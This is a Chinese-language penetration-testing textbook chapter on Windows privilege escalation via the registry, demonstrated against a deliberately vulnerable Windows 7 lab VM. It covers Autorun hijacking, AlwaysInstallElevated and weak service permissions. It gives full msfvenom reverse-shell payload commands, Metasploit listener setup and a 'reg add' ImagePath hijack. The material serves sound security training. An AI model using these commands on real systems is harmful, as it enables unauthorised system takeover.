


# 第九章：通过 Windows 注册表进行权限提升

您现在应该已经掌握如何识别和执行一些最重要的 Windows 权限提升技术。然而，这个谜题的最后一块拼图依然存在：Windows 注册表。在本章中，我们将探讨如何通过利用 Windows 注册表中的配置错误和弱点来提升目标系统的权限。

我们将探索识别注册表中配置错误的过程，利用自动运行功能，利用注册表权限的薄弱环节，以及 AlwaysInstallElevated 功能来提升我们的权限。我们还将简要概述 Windows 注册表，以帮助理解其目的和功能。

在本章中，我们将涵盖以下主要主题：

+   理解 Windows 注册表

+   利用自动运行程序

+   利用 AlwaysInstallElevated 功能

+   利用弱注册表权限

# 技术要求

为了跟上本章的演示，您需要确保满足以下技术要求：

+   熟悉 Windows CMD 命令

+   熟悉 Windows 注册表

您可以在这里查看本章代码的实际应用：[`bit.ly/3oga2ji`](https://bit.ly/3oga2ji)

# 理解 Windows 注册表

在深入本章的核心内容之前，我们必须对 Windows 注册表有一定的理解，知道它是做什么的，以及它如何工作。

这些信息将在本章后续部分中派上用场，并且在我们利用各种权限提升技术时，能提供一个更好的上下文，帮助我们了解正在做的事情以及我们希望实现的目标。

## 什么是 Windows 注册表？

简单来说，Windows 注册表是一个层次化的数据库，负责存储应用程序、硬件和 Windows 操作系统的配置、设置和值。在程序和应用程序的上下文中，注册表还用于存储与程序配置和操作相关的程序和应用程序数据。

由于 Windows 注册表的集中性质及其存储的数据，它是渗透测试人员在权限提升过程中主要的目标。这是因为它可以揭示操作系统配置和已安装程序的配置信息，这些配置可能暴露出 Windows 服务的潜在弱点，比如自动运行功能。

在*第四章*，*执行本地枚举*中，我们探讨了可以用来从注册表中提取重要和有用数据的各种枚举技术，主要涉及应用程序密码。然而，我们没有探讨枚举操作系统配置的过程，而这些配置可以用来利用服务和其他 Windows 特性。

在本章中，我们将探索在 Windows 注册表中识别操作系统配置错误的过程，以及如何利用这些错误来提升我们的权限。

注意

请注意，程序和应用程序并不要求将配置存储在 Windows 注册表中，它们可能选择将配置存储在程序安装目录中。在搜索程序和应用程序中的配置错误和漏洞时，必须记住这一点。

我们可以通过运行`regedit.exe`可执行文件来访问 Windows 注册表。可以通过 Windows 命令提示符或**运行**工具来完成，如下图所示：

图 9.1 – 启动 regedit.exe

注意

Windows 注册表编辑器（**regedit.exe**）是 Windows 内置的可执行文件，用于与 Windows 注册表交互，允许用户查看和编辑注册表条目。

如下图所示，Windows 注册表使用层级排序系统，根据功能和目的将数据分类为键和值：

图 9.2 – 注册表编辑器

Windows 注册表编辑器显示了包含各自值的各种键。现在，让我们来看看这些键和值是如何存储和分类的。

## Windows 注册表如何存储数据

Windows 注册表在键/值系统下运行，其中条目以键和值对的形式存储其数据。

为了理解在 Windows 注册表中键和值如何工作，我们可以使用文件夹和文件的分类类比，其中键是文件夹，值是文件。

Windows 注册表编辑器显示了根键的分类列表，根键包含系统上的所有注册表值。下表提供了每个根键的描述、缩写以及它所存储的相应值的性质：

现在您了解了 Windows 注册表如何存储数据、各种根键以及它们存储的信息类型，我们可以开始探索识别 Windows 注册表中操作性配置错误的过程。

该过程是动态的，因此将依赖于目标配置和部署使用案例，主要是因为这一过程中涉及的技术将取决于特定服务的实现和配置。

考虑到该过程的强大性质和所使用的技术，我们将使用在*第八章*中配置的 Windows 7 虚拟机，*利用服务*。该虚拟机已配置了存在漏洞的服务和配置。

在我们开始之前，请确保您已在目标系统上占据了一定位置，并通过命令行或 Meterpreter 会话访问目标系统。

本章中使用的技术和工具将涉及利用本地 Windows 命令和特定 Meterpreter 模块来自动化过程的各个方面。

我们将首先看看如何识别和利用 Autorun 程序以提升我们的特权。

# 利用 Autorun 程序

Autorun 是 Windows 的一个功能，用于在系统启动期间自动启动应用程序和程序。

Autorun 是 AutoPlay 的一个伴随功能，通常用于自动启动特定程序的安装文件。这有助于在将安装介质插入系统时简化新软件的安装过程。

程序和软件可以配置为使用 Autorun 功能在系统启动时运行。

新版 Windows（如 Windows 10）默认情况下禁用了 Autorun 功能；但是，Microsoft 已经为用户提供了启用它的功能。此技术将需要在目标上启用 Autorun 功能。

通过识别已配置在系统启动时运行的程序以及可以由具有管理权限的用户运行的程序，我们可以通过 Autorun 来提升我们的特权。然后我们可以利用这些来提升我们的特权。

可以通过完成以下步骤执行此过程：

1.  这个过程的第一步涉及识别目标系统上的 Autorun 应用程序。可以通过在 Windows 命令 shell 中运行以下命令来完成：

    `reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run`

    如下截图所示，这将显示一个 Autorun 应用程序列表：

    

    图 9.3 – Windows 注册表 Autorun 程序

1.  我们还可以使用 `accesschk` 实用程序识别已配置为 Autorun 的应用程序及其各自的权限。可以从这里下载 `accesschk` 可执行文件：[`docs.microsoft.com/en-us/sysinternals/downloads/accesschk`](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)。

    将 `accesschk` 可执行文件下载到我们的 Kali 虚拟机后，我们需要将其传输到目标系统。可以通过 Meterpreter 运行以下命令完成：

    `upload /<PATH-TO-EXECUTABLE/accesschk64.exe`

    如果使用标准命令 shell，可以使用 `certutil` 实用程序将二进制文件传输到目标系统。

    在将 `accesschk.exe` 二进制文件上传到目标系统后，我们可以通过在 Windows 命令 shell 中运行以下命令来枚举所有 Autorun 程序的列表：

    `.\accesschk64.exe -wvu "c:\Program Files\ Autorun Program"`

    如下截图所示，这将突出显示一个 Autorun 程序列表、它们的访问权限以及各自的目录：

    注意

    `RW` 表示组具有读写权限，因此可以更改程序目录的内容。

    

    图 9.4 – accesschk Autorun 程序

    如前面的截图所示，我们识别了`program.exe`可执行文件及其权限。在这种情况下，该可执行文件具有`NT AUTHORITY \SYSTEM`访问权限。我们可以利用这个程序通过替换可执行文件为 Meterpreter shell 可执行文件来提升我们的权限，当管理员登录时，Meterpreter shell 会自动执行，从而为我们提供一个提升的 Meterpreter 会话。

    下一步将涉及生成反向 shell 可执行文件，并将其上传到目标系统。

    注

    这种权限提升技术要求管理员登录系统，才能执行 Autorun 程序。

1.  我们可以使用`msfvenom`生成 Meterpreter 有效载荷并将其保存为可执行文件。这可以通过在 Kali 中运行以下命令来完成：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/program.exe`

    注

    反向 shell 有效载荷应与我们试图利用的程序同名，并应上传到我们之前识别的、并在此处标明的相应服务路径。

1.  生成有效载荷后，我们可以将其上传到目标系统的 Autorun 应用程序路径，该路径如下：

    C:\Program Files\Autorun Program\

1.  在上传 Meterpreter 有效载荷之前，我们需要重命名原始的二进制文件。然而，建议先备份原始二进制文件，以防万一过程未按预期执行。可以通过在 Meterpreter 会话中运行以下命令来重命名原始可执行文件：

    `mv program.exe program_backup.exe`

1.  现在，我们可以通过在 Meterpreter 会话中运行以下命令，将 Meterpreter 可执行文件上传到目标系统的 Autorun 程序目录：

    `upload /home/kali/Desktop/program.exe`

    如果你使用的是标准命令行 shell，你可以使用`certutil`工具将二进制文件传输到目标系统。

    如以下截图所示，这将把 Meterpreter 可执行文件上传到`Autorun Program`目录：

    

    ](Images/B17389_09_005.jpg)

    图 9.5 – 上传自定义 Autorun 程序

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。这可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们使用 MSFvenom 创建二进制文件时所用的有效载荷。可以通过运行以下命令来完成：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置`LHOST`和`LPORT`选项，如以下截图所示：

    

    ](Images/B17389_09_006.jpg)

    图 9.6 – Meterpreter 负载选项

1.  在设置模块选项后，我们可以通过运行以下命令启动监听器：

    `run`

    监听器将监听我们通过 MSFvenom 生成的负载发出的任何传入连接。

1.  我们的自定义自动运行程序将在管理员下次登录时自动执行，之后我们应该会收到一个特权的 Meterpreter 会话，如下截图所示：

](Images/B17389_09_007.jpg)

图 9.7 – 自动运行 Meterpreter 会话

有了这个，我们成功地通过利用具有配置错误权限的自动运行程序提升了我们的权限。

# 利用 Always Install Elevated 功能

AlwaysInstallElevated 是一个 Windows 功能，它允许没有管理员权限的标准用户帐户以管理员权限安装打包为`Microsoft Windows Installer`（**MSI**）格式的软件。

我们可以利用这个配置通过生成一个自定义的 MSI 格式可执行文件来提升我们的权限。然后，我们可以使用`msiexec`工具执行该 MSI 可执行文件，从而获得提升的会话。

该功能在公司和组织中常常配置错误，主要是为了方便员工访问，或者管理员在设置工作站后错误地将其启用。无论哪种情况，这项技术都能让我们以相对简单的方式提升权限。

Always Install Elevated 功能配置在 Windows 注册表中，因此我们可以查询注册表以确定该功能是否启用，然后再开始权限提升过程。

让我们来看看如何使用 Metasploit 框架手动和自动执行此技术。

注意

如果目标系统未启用此功能，则此技术将无法工作。

要执行此技术，请按以下步骤操作：

1.  第一步是确定目标系统是否启用了 AlwaysInstallElevated 功能。可以通过在 Windows 命令行中运行以下注册表查询来完成：

    `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

    `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

    如下截图所示，这将输出 AlwaysInstallElevated 功能的注册表配置及其值。如果以下截图中突出显示的值设置为`0`，则该功能被禁用；如果值设置为`1`，则该功能已启用：

    

    ](Images/B17389_09_008.jpg)

    图 9.8 – 注册表查询 – AlwaysInstallElevated

    在本例中，我们确定 AlwaysInstallElevated 功能已启用，因此可以利用该功能提升我们的权限。

1.  过程中的第二步是使用 MSFvenom 生成自定义的 MSI 可执行文件。可以通过在 Kali 中运行以下命令来完成此操作：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f msi > setup.msi`

1.  生成有效载荷后，我们可以将其上传到 Windows 临时目录，可以在以下位置找到它：

    C:\Temp

    现在，我们可以通过运行以下命令，使用 Meterpreter 将自定义 MSI 可执行文件上传到目标系统的临时目录：

    `upload /home/kali/Desktop/setup.msi`

    如果你正在使用标准命令行，可以使用`certutil`工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到`Autorun Program`目录：

    

    图 9.9 – Meterpreter – 上传自定义 MSI

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成此操作：

    `use /exploit/multi/handler`

1.  下一步是指定我们使用 MSFvenom 创建自定义 MSI 可执行文件时使用的有效载荷。可以通过运行以下命令来完成此操作：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置`LHOST`和`LPORT`选项，如下图所示：

    

    图 9.10 – Meterpreter 有效载荷选项

    在设置模块选项后，我们可以通过运行以下命令来启动监听器：

    `run`

    监听器将监听来自我们使用`MSFvenom`生成的自定义 MSI 可执行文件的任何传入连接。

1.  下一步是通过`msiexec`工具执行自定义的 MSI 可执行文件。可以通过在 Windows 命令行中运行以下命令来完成此操作：

    `msiexec /quiet /qn /i C:/temp/setup.msi`

    如果成功，这将在我们的监听器上生成一个提升的 Meterpreter 会话，如下图所示：

    

    图 9.11 – AlwaysInstallElevated Meterpreter 会话

1.  此过程还将把当前的标准用户添加到本地管理员组中。我们可以通过在 Windows 命令行中运行以下命令来确认这一点：

    `net localgroup administrators`

    如下图所示，`Win7`用户已被添加到本地管理员组中，并且具有管理员权限：

图 9.12 – 本地管理员组成员

通过手动利用 AlwaysInstallElevated 功能，我们成功地提升了权限。

我们还可以通过使用 Metasploit 模块来自动化该过程：

1.  通过运行以下命令加载模块：

    **使用 exploit/windows/local/always_install_elevated**

1.  加载模块后，您需要为该模块设置 `SESSION` 选项。`SESSION` 选项需要您的 Meterpreter 会话的会话 ID。可以通过运行以下命令来完成：

    **设置 SESSION <SESSION-ID>**

    如以下截图所示，`SESSION` 选项应反映您设置的会话 ID：

    

    图 9.13 – Metasploit 模块选项

1.  配置模块选项后，我们可以通过运行以下命令来运行该模块：

    **运行**

    如果漏洞利用成功，您应该会获得一个新的提升的 Meterpreter 会话，如以下截图所示：

图 9.14 – 提升的 Meterpreter 会话

通过此方式，我们成功利用 Windows 中的 AlwaysInstallElevated 功能，手动和自动地使用 Metasploit 提升了权限。

# 利用弱注册表权限

这种权限提升技术涉及使用标准用户帐户识别并修改服务的注册表值。在许多情况下，写入或修改 Windows 注册表的值仅限管理员权限。然而，您可能会遇到可以由标准用户帐户修改的服务。

我们可以利用这个漏洞，将服务的 `ImagePath`（应用程序路径）修改为自定义可执行文件的路径。这样，当服务重新启动时，我们就能获得提升的会话。

该技术只会在至少有一个或多个服务具有弱权限的系统上有效。

利用该漏洞进行攻击的过程可以通过以下步骤完成：

1.  该过程的第一步是识别可以修改注册表值的服务列表。在这种情况下，我们可以使用 `winPEAS` 枚举工具枚举具有注册表值及其各自权限的服务列表。

    可以从以下 GitHub 仓库下载 winPEAS 二进制文件：[`github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)。

    确保根据目标操作系统的架构下载正确的二进制文件；架构特定的二进制文件可以在 `binaries` 文件夹中找到，如以下截图所示：

    

    图 9.15 – winPEAS 二进制文件

    下载二进制文件到我们的 Kali 虚拟机后，我们需要将 `winPEAS.exe` 二进制文件传输到目标虚拟机。

1.  我们可以通过运行以下命令，将 `winPEAS.exe` 二进制文件通过 Meterpreter 传输到目标系统：

    **上传 /<PATH-To-BINARY>/winPEASx64.exe**

    如果使用的是标准命令行 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

1.  上传 `winPEAS.exe` 二进制文件到目标系统后，可以通过运行以下命令枚举服务注册表值列表：

    `.\winPEASx64.exe servicesinfo`

    如下图所示，这将列出可以修改的服务注册表值。在我们的案例中，可以识别出具有所需权限的 `regsvc` 服务：

    

    图 9.16 – winPEAS 不安全的注册表服务

    在这种情况下，我们可以修改服务并更改 `ImagePath` 为我们自定义 Meterpreter 可执行文件的路径。

1.  过程中的第二步是使用`MSFvenom`生成自定义的 Meterpreter 可执行文件。可以通过在 Kali 中运行以下命令完成：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f exe > shell.exe`

1.  生成可执行文件后，我们可以将其上传到 Windows 临时目录，位置如下：

    C:\Temp

1.  现在，我们可以通过 Meterpreter 将自定义可执行文件上传到目标的临时目录，方法是运行以下命令：

    **上传 /home/kali/Desktop/shell.exe**

    如果使用的是标准命令行 shell，可以使用 `certutil` 工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到临时目录：

    

    图 9.17 – Meterpreter – 上传自定义可执行文件

1.  现在，我们需要使用 Metasploit 设置 Meterpreter 监听器。可以通过在 Metasploit 控制台中运行以下命令来完成：

    `use /exploit/multi/handler`

1.  下一步是指定我们用来创建自定义可执行文件的有效载荷，使用`MSFvenom`来完成。可以通过运行以下命令来实现：

    `set payload /windows/x64/meterpreter/reverse_tcp`

    现在，我们需要配置模块选项。在这种情况下，我们需要配置 `LHOST` 和 `LPORT` 选项，如下图所示：

    

    图 9.18 – Meterpreter 有效载荷选项

1.  设置模块选项后，我们可以通过运行以下命令来启动监听器：

    `run`

    监听器将监听来自我们使用 `MSFvenom` 生成的自定义可执行文件的任何传入连接。

1.  现在，我们可以修改目标注册表服务的 `ImagePath` 值，并将其设置为我们生成的自定义可执行文件的路径。可以通过在目标的 Windows 命令行中运行以下命令来完成：

    `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Temp\shell.exe" /f`

    如果成功，新的值应该被写入。现在，服务将在下次启动或重启时执行我们的自定义可执行文件。

1.  我们可以通过在 Windows 命令行中运行以下命令来启动服务：

    `sc start regsvc`

1.  服务现在将执行我们的自定义可执行文件，并在我们设置的监听器上提供提升权限的 Meterpreter 会话，如下图所示：

图 9.19 – 提升权限的 Meterpreter 会话

现在，你应该对如何识别 Windows 注册表中的配置错误有了清晰的理解，并且知道如何利用这些错误来提升你在目标系统上的权限。

# 总结

在本章中，我们了解了 Windows 注册表的工作原理以及它如何存储数据。接着，我们探索了如何识别和利用 Windows 中的 Autorun 功能来提升权限。我们还探讨了如何利用 Windows 中的 AlwaysInstallElevated 功能，通过手动或自动的方式（使用 Metasploit）提升权限。最后，我们了解了如何利用弱注册表服务权限进行攻击。

在下一章中，我们将通过探索识别和利用内核漏洞的过程，开始在 Linux 上进行权限提升过程。
